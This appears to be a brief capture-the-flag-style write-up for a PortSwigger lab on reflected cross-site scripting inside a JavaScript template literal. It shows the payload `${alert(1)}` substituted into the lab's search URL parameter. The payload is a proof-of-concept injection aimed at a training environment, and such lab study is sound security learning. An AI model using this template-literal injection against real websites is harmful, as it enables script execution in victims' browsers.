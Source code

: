 # Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped

## This lab contains a [reflected cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/reflected) vulnerability in the search blog functionality. The reflection occurs inside a template string with angle brackets, single, and double quotes HTML encoded, and backticks escaped. To solve this lab, perform a cross-site scripting attack that calls the `alert` function inside the template string.

### HINT: `${alert(1)}`

---

### step 1

search test into search bar
url will be
`https://0a380086040a8bc0815c3e5900720072.web-security-academy.net/?search=test`
change test with ${alert(1)}
`https://0a380086040a8bc0815c3e5900720072.web-security-academy.net/?search=${alert(1)}`
